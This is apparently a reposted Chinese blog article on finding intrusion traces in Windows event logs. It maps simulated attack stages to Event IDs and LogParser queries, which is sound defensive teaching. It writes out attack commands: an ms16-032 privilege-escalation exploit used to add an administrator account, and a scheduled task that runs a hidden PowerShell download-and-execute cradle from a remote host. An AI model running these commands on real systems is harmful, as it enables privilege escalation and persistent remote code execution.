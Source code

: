 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/pzQxkl3Ngbapuso75LgnLQ)

有小伙伴问：Windows 系统日志分析大多都只是对恶意登录事件进行分析的案例，可以通过系统日志找到其他入侵痕迹吗？

答案肯定是可以的，当攻击者获取 webshell 后，会通过各种方式来执行系统命令。所有的 web 攻击行为会存留在 web 访问日志里，而执行操作系统命令的行为也会存在在系统日志。

不同的攻击场景会留下不一样的系统日志痕迹，不同的 Event ID 代表了不同的意义，需要重点关注一些事件 ID，来分析攻击者在系统中留下的攻击痕迹。

我们通过一个攻击案例来进行 windows 日志分析，从日志里识别出攻击场景，发现恶意程序执行痕迹，甚至还原攻击者的行为轨迹。

**1、信息收集**

攻击者在获取 webshell 权限后，会尝试查询当前用户权限，收集系统版本和补丁信息，用来辅助权限提升。

```
whoami
systeminfo

```

**Windows 日志分析：**

在本地安全策略中，需开启审核进程跟踪，可以跟踪进程创建 / 终止。关键进程跟踪事件和说明，如：

```
4688 创建新进程
4689 进程终止

```

我们通过 LogParser 做一个简单的筛选，得到 Event ID 4688，也就是创建新进程的列表，可以发现用户 Bypass，先后调用 cmd 执行 whami 和 systeminfo。Conhost.exe 进程主要是为命令行程序（cmd.exe）提供图形子系统等功能支持。

```
LogParser.exe  -i:EVT "SELECT TimeGenerated,EventID,EXTRACT_TOKEN(Strings,1,'|')  as UserName,EXTRACT_TOKEN(Strings,5,'|')  as ProcessName FROM c:\11.evtx where EventID=4688"

```

**2、权限提升**

通过执行 exp 来提升权限，获取操作系统 system 权限，增加管理用户。

```
ms16-032.exe "whoami"
ms16-032.exe "net user test1 abc123! /add"
ms16-032.exe "net localgroup Administrators test1 /add"

```

**Windows 日志分析：**

在本地安全策略中，需开启审核账户管理，关键账户管理事件和说明。如：

```
4720  创建用户
4732  已将成员添加到启用安全性的本地组

```

这里会涉及进程创建，主要关注账户创建和管理用户组变更。从 Event ID 4720 ，系统新建了一个 test 用户，从 Event ID 4732 的两条记录变化，得到一个关键信息，本地用户 test 从 user 组提升到 Administrators。

**3、管理账号登录**

在创建管理账户后，尝试远程登录到目标主机，获取敏感信息。

```
mstsc /v 10.1.1.188

```

**Windows 日志分析：**

在本地安全策略中，需开启审核登录事件，关键登录事件和说明，如：

```
4624 登录成功
4625 登录失败

```

```
LogParser.exe -i:EVT "SELECT TimeGenerated as LoginTime,EXTRACT_TOKEN(Strings,8,'|') as EventType,EXTRACT_TOKEN(Strings,5,'|') as username,EXTRACT_TOKEN(Strings,18,'|') as Loginip FROM C:\3333.evtx where EventID=4624"

```

使用 LogParser 做一下分析，得到系统登录时间，登录类型 10 也就是远程登录，登录用户 test，登录 IP：10.1.1.1。

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nzyonia1tGS5mE465efMtJHO5dMvqmq1HUBMwrYDwcOxSFKJxtlMf5G9Gic0v64s4DGeZ0xtUVNvRw/640?wx_fmt=png)

**4、权限维持**

通过创建计划任务执行脚本后门，以便下次直接进入，使用以下命令可以一键实现：

```
schtasks /create /sc minute /mo 1 /tn "Security Script" /tr "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\"\"\"http://10.1.1.1:8888/logo.txt\"\"\"))\""

```

**Windows 日志分析：**

在本地安全策略中，需开启审核对象访问，关键对象访问事件，如：

```
4698  创建计划任务
4699  删除计划任务

```

这里涉及进程创建和对象访问事件，包括 schtasks.exe 进程的创建和 Event ID 4698 发现新建的计划任务。成功找到计划任务后门位置：

![](https://mmbiz.qpic.cn/mmbiz_png/ia0LvkyJzB4nzyonia1tGS5mE465efMtJHzvCPGbUOGdEKFicqDXyYkEJ7yY7fG0Ror9Os2qiaG8CUKDRbxibvcqjwA/640?wx_fmt=png)